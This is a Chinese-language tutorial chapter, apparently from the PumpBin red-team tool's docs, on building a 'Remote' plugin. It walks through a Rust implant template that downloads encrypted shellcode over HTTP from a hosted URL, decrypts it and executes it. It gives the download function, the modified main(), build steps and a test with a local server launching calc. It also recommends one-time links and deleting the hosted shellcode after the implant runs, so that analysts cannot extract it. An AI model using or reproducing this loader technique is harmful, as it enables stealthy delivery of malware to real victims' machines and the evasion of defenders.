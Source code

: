 # Remote Type

在这一章, 我们将制作一个`Remote`类型的Plugin.

`Remote`类型的Plugin, shellcode托管在远程服务器上, 可以通过控制shellcode的访问性, 使shellcode更难被提取, 从而保护基础设施.

例如, 在植入物运行成功后, 将远程shellcode文件删除. (前提是你没有其他依赖这个shellcode文件的植入物需要运行)

建议始终使用一次性链接(每个生成的最终植入物对应一个唯一托管地址)

## 制作二进制植入物模板

我们将在[上一章代码](https://github.com/pumpbin/pumpbin/tree/main/examples/create_thread_encrypt)的基础上进行修改

首先, 我们需要一种方式从远程服务器获取加密的shellcode文件, 而不是将shellcode占位数据预先包含到二进制植入物模板中.

删除build.rs (不再需要生成shellcode占位数据).

在Cargo.toml末尾添加依赖项, 本例中使用http协议作为演示. (你可以使用任何协议, 任何方式实现下载函数, PumpBin并不关心, PumpBin非常灵活)

```toml
reqwest = { version = "0.12.5", features = ["blocking"] }
```

在main.rs的main函数上添加如下下载函数

```rust
fn download() -> Vec<u8> {
    const URL: &[u8; 81] =
        b"$$UURRLL$$aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
    let url = CStr::from_bytes_until_nul(URL).unwrap();
    reqwest::blocking::get(url.to_str().unwrap())
        .unwrap()
        .bytes()
        .unwrap()
        .to_vec()
}
```

$$UURRLL$$是一个`Prefix`, 这意味着URL常量会以有效数据+随机数据填充, 所以建议预留一部分字节让PumpBin填充随机字节.

由于url或之类的托管地址大部分都是可打印字符, 所以此处的处理与第一章中$$SHELLCODE$$ `Prefix`略有不同.

我们不再需要Size Holder来区分有效数据, 相反PumpBin会在有效数据后添加一个\\x00字节, 以定位有效数据.

这在rust中很容易实现, 其他语言应该也有类似的实现. 如果没有, 只需要for循环逐字节判断.

实现了下载函数后, 我们需要在main.rs中使用它替换shellcode占位数据

删除main.rs中main函数的前四行代码, 并在第一行添加以下代码

```rust
let shellcode = download();
let shellcode = shellcode.as_slice();
```

修改后的main函数如下

```rust
fn main() {
    let shellcode = download();
    let shellcode = shellcode.as_slice();
    let shellcode = decrypt(shellcode);
    let shellcode_size = shellcode.len();
    ...
```

编译修改后的`create_thread`项目, 我们将得到一个使用http协议下载加密shellcode文件的二进制植入物模板.

```sh
cargo b -r
```

## 制作Plugin

使用PumpBin Maker制作Plugin, 与前面章节类似.

Prefix填写`$$UURRLL$$`

MaxLen填写URL常量数组引用的长度 81.

Type选择`Remote`

其余与上一章相同

## 测试Plugin

用PumpBin安装制作的Plugin, 点击Encrypt按钮选择`w64-exec-calc-shellcode-func`生成加密的shellcode文件.

使用Python3在加密后的shellcode文件同级目录下开启一个http服务

```sh
python -m http.server 8000
```

加密shellcode文件的本地http地址应该是`http://127.0.0.1:8000/shellcode.enc`

填入PumpBin, 生成最终植入物, 运行应该看到访问请求, calc程序被启动.

至此, 基础章节结束. 我一直有意在强调, PumpBin非常灵活! 通过基础章节的内容已经初见端倪.
后续章节将介绍一些高级技巧, 这些技巧建立在PumpBin的高度灵活性上.

本例中的完整项目文件在PumpBin代码仓库的[examples/create_thread_remote](https://github.com/pumpbin/pumpbin/blob/main/examples/create_thread_remote/src/main.rs).
